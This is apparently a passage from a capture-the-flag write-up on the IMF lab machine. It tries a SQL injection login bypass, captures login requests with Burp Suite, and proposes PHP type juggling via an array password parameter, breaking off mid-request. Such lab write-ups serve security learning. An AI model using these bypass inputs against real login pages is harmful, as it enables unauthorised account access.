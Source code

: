 and we found a comment, according with the programmer he did not could take the work done in the SQL data bases 

so it might be a vulneral panel of SQLIN let's enumerate the page 


```bash 
Invalid username.
Username: administrator-- -
Password: cualquiercosa 
```
and did not work, let's capture the request with burpSuite if you don't know to use it click [here] (https://zeekk3n.github.io/andrey.github.io/.hacking-notes)

so how i said before let's capture the request

open ```BurpSuite``` > ```proxy``` > ```open browser``` > copy your url + route and paste it in my case will be ```http://192.168.100.52/imfadministrator/``` > turn off the ```interception``` that burpsuite is doing it, now we are able to watch the same loggin platform, let's capture with the burp Suite the comunication when we press ```login``` tab 

i capture this 

```php
POST /imfadministrator/ HTTP/1.1
Host: 192.168.100.52
Content-Length: 17
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.100.52
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.100.52/imfadministrator/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Cookie: PHPSESSID=rftk9b1ducfunqjmrks8bcfb04
Connection: close

user=asd&pass=asd

```
seems that we can use a method called ```typetruegglin``` if is not sanitized  

let's try 

the attack consist in to add [] in the field of password and we found some possible users ```rmichaels``` when we were enumerating the port 80 let's try it 

## Gaining Access

```php
POST /imfadministrator/index.php HTTP/1.1
Host: 192.168.100.52
Content-Length: 26
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.100.52
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.100.52/imfadministrator/index.php
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
```